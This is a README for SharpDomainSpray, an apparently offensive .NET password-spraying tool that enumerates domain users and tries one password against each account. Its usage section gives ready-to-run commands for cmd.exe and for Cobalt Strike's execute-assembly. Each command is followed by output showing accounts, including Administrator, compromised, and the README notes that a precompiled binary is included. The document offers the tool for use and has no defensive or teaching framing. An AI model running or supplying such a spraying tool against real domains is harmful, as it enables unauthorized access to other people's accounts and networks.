 # SharpDomainSpray

[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

SharpDomainSpray is a very simple password spraying tool written in .NET. It takes a password then finds users in the domain and attempts to authenticate to the domain with that given password.

## Usage 

cmd.exe
```
C:\> SharpDomainSpray.exe test12345!

User: Administrator Password is: test12345!

User: TestUser Password is: test12345!
```
Cobalt Strike
```
> execute-assembly /path/to/SharpDomainSpray.exe test12345!

User: Administrator Password is: test12345!

User: TestUser Password is: test12345!
```

## Release 

There is already a compiled binary in the repo

